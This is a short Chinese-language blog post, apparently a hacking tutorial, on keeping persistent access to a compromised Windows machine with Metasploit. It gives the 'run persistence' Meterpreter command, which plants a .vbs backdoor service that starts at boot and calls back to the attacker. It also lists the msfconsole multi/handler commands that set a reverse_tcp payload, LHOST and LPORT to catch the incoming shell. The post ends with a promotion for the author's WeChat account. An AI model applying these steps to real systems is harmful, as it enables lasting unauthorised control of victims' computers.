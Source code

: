 ```yaml
---
layout: post
category: binghe-code-hack
title: Metasploit访问控制的持久化
tagline: by CurleyG
tag: [hack,binghe-code-hack]
excerpt: Metasploit访问控制的持久化
lock: need
---
```


# Metasploit访问控制的持久化

工具：Metasploit

为了实现这一点，可以选择在目标计算机上添加一个新的用户，也可以选择使用MSF中persistence模块。

运行persistence模块可以通过在目标计算机上安装一个永久性的后门来实现访问控制的持久化。这样，即使有一天目标计算机修补了漏洞，我们仍然可以通过这个连接来实现对目标计算机的控制。

这里，我们假设经过了一系列的渗透拿到了system权限的meterpreter，我们在meterpreter命令行执行如下命令：

```
run persistence
```

运行persistence模块会向目标计算机上传一个.vbs类型的恶意脚本文件，并在目标计算机上执行这个恶意脚本文件。这个脚本一旦在目标计算机上运行，每隔几秒钟就会主动连接攻击者的计算机。这个恶意脚本文件会被当做一个系统服务安装在目标计算机系统中，同时，会被添加到开机启动项中，因此，无论目标计算机重启多少次，该恶意服务都可以运行。除非卸载该服务或手动删除文件，否则恶意服务一直存在。

这里，我们重新开启一个MSF来验证：

```
msfconsole
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 192.168.109.137
set LPORT 4444
exploit
```

此处需要注意的是：我们设置攻击载荷和LPORT选项必须与运行persistence模块时设置的攻击载荷和LPORT选项相同。

发出攻击命令exploit后，exploit/multi/handler开始等待从目标系统上发回来的连接。一旦传入的连接被检测到，控制端就会切换到Meterpreter命令行。


## 写在最后

> 如果你觉得冰河写的还不错，请微信搜索并关注「 **冰河技术** 」微信公众号，跟冰河学习高并发、分布式、微服务、大数据、互联网和云原生技术，「 **冰河技术** 」微信公众号更新了大量技术专题，每一篇技术文章干货满满！不少读者已经通过阅读「 **冰河技术** 」微信公众号文章，吊打面试官，成功跳槽到大厂；也有不少读者实现了技术上的飞跃，成为公司的技术骨干！如果你也想像他们一样提升自己的能力，实现技术能力的飞跃，进大厂，升职加薪，那就关注「 **冰河技术** 」微信公众号吧，每天更新超硬核技术干货，让你对如何提升技术能力不再迷茫！


![](https://img-blog.csdnimg.cn/20200906013715889.png)
